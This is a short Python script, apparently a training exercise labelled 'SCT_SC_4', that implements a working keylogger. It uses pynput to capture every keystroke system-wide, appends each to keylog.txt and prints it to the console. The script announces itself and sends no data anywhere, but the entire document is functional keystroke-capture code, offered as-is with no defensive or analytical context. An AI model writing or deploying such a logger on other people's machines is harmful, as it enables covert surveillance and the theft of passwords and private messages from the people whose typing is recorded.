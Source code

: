 # SCT_SC_4
from pynput.keyboard import Listener

LOG_FILE = "keylog.txt"

def log_key(key):
    try:
        key = key.char  # For normal keys
    except AttributeError:
        key = f"[{key}]"  # Format special keys properly

    with open(LOG_FILE, "a") as file:
        file.write(key + " ")

    print(key, end=" ", flush=True)

def main():
    print("[+] Keylogger Started. Press Ctrl+C to stop.")
    with Listener(on_press=log_key) as listener:
        try:
            listener.join()
        except KeyboardInterrupt:
            print("\n[+] Keylogger Stopped.")

if __name__ == "__main__":
    main()
